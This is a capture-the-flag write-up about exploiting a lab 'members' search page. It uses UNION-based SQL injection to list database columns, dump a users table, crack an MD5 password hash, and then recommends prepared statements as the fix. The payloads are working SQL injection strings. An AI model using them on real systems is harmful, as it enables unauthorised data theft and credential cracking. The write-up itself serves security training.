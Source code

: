 # MEMBERS PAGE

## Explanations

In the members page, we encounter a textfield with a submit to search a member by ID.

Before even beginning, if we submit nothing we have this message:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1` => an SQL injection seems to be possible !

Typing an ID gives us indeed a user linked to that ID, for example typing `1` will give us:

```
ID: 1
First name: Barack Hussein
Surname : Obama
```

Now let's get some more informations about the database.

We can try to add another SQL request with `UNION` and get more infos with the request:

```
 1 UNION SELECT * FROM information_schema.columns
```

giving us this output:

```
The used SELECT statements have a different number of columns
```

It seems like we need to select only 2 informations because our first SQL request only gave us `First name` and `Surname` (the output needs to remain on 2 columns)

So let's get all the columns and tables avalaible on the dabase with:

```
 1 UNION SELECT column_name, table_name FROM information_schema.columns
```

It worked ! By looking closely we see a `users` table that has 8 columns:  
 `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire` and `countersign`

Let's check each users with:

```
1 UNION SELECT last_name, first_name FROM users
```

One of the users returns us `GetThe` as 'last_name' and `Flag` as 'first_name' !

By checking the other infos about this user, we finally try:

```
1 UNION SELECT Commentaire, countersign FROM users
```

and get:

```
ID: 1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

Let's get this flag now !

First we decrypt (MD5) `5ff9d0165b4f92b14994e5c685cdce28` which gives us `FortyTwo` then lowered the chars to `fortytwo`

Finally, we get the flag by applying SHA256 which gives us : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

---

#### Sources

- [All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
- [SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Find Table Names for SQL Injection](https://www.sqlinjection.net/table-names/)
- [MD5 Decrypter](https://md5decrypt.net/)
- [SHA256 Encrypter](https://md5decrypt.net/Sha256/)
